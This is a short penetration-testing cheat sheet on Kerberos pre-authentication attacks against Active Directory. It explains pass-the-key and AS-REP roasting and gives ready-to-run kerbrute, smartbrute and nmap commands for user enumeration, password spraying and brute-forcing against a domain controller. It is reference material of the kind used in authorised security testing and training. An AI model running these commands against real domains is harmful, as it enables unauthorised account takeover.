 # Pre-authentication Kerberos

## Objectives

* Bruteforce accounts
* Password Spraying
* Bruteforce single user
* Enumerate user

Pre-authentication (AS-REQ) is possible on all accounts that do not have this checkbox unchecked : \
![](<../.gitbook/assets/image (9).png>)



In Pre-authentication, the user does not supply its password but a secret which is derivated from its password (DES, RC4, AES128 or AES256).

If we know the derivated secret, we don't need to know the password to achieve pre-auth (pass-the-key).

If pre-authentication is disabled, AS-REP Roasting is possible.

## Kerbrute (go)

```
sudo git clone https://github.com/ropnop/kerbrute.git
ls dist/
./kerbrute_linux_amd64 
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
kerbrute userenum -d corp.com --dc 192.168.152.70 /opt/seclists/Usernames/xato-net-10-million-usernames.txt -o valid_ad_users

```

## Alternative : Smartbrute (Python)

```
# brute mode, users and passwords lists supplied
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN

# smart mode, valid credentials supplied for enumeration
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos// Some code
```

## Nmap

```
nmap -p 88 --script="krb5-enum-users" --script-args="krb5-enum-users.realm='$DOMAIN',userdb=$WORDLIST" $IP_DC

```



